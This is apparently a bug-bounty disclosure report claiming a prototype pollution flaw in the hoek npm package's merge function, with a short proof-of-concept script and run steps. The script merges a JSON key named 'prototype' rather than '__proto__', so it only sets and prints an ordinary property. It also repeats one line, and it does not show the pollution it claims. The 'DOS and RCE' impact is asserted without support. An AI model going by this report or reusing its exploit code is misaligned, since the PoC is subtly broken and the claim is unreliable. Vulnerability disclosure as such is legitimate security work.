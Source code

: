 ## ✍️ Description
hoek package is vulnerable to prototype pollution issue 
file can be found in https://github.com/hapijs/hoek/blob/master/lib/merge.js
## 🕵️‍♂️ Proof of Concept 
1. Creating poc file namely poc.js
```js
var utils = require('hoek');
var src = {};
let object = utils.merge({}, JSON.parse('{ "myProperty": "a", "prototype" : { "isAdmin" : true } }'));
console.log(object.prototype.isAdmin);
console.log(object.prototype.isAdmin);
```
2. Execute command npm install hoek
3. Execute command node poc.js
* https://drive.google.com/file/d/1Vcy1bmKPcaeADxz3EAopuO3cZMlanYcX/view?usp=sharing
## 💥 Impact
Prototype pollution which could lead to DOS and RCE
## ✅ Checklist
- [x] _Created and populated the README.md and vulnerability.json files_
- [x] _Provided the repository URL and any applicable [permalinks]([https://help.github.com/en/github/managing-files-in-a-repository/getting-permanent-links-to-files](https://help.github.com/en/github/managing-files-in-a-repository/getting-permanent-links-to-files))_
- [x] _Defined all the applicable weaknesses ([CWEs]([https://cwe.mitre.org/](https://cwe.mitre.org/)))_
- [x] _Proposed the CVSS vector items i.e. User Interaction, Attack Complexity_
- [x] _Checked that the vulnerability affects the latest version of the package released_
- [x] _Checked that a fix does not currently exist that remediates this vulnerability_
- [x] _Complied with all applicable laws_
